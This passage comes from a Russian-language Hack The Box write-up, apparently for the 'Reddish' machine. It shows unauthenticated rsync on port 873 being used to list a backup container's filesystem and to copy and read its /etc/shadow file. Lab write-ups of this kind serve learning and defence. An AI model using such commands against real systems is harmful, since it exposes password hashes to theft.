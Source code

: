 {:.center-image}

Сетевая карта. Часть 6: Локализация контейнера backup
{:.quote}

Теперь вернемся к рассуждению выше: у нас есть доступ к `www` и есть `rsync` без аутентификации (на 873-м порту), следовательно, у нас есть права на чтение/запись в файловую систему `backup`.

Например, я могу просмотреть корень ФС `backup`.

```
www-data@www:/tmp$ rsync rsync://backup:873/src/
...
```

![www-rsync-read-root.png](/assets/images/htb/machines/reddish/www-rsync-read-root.png)
{:.center-image}

Или прочитать файл `shadow`.

```
www-data@www:/tmp$ rsync -a rsync://backup:873/etc/shadow .
www-data@www:/tmp$ cat shadow
...
```
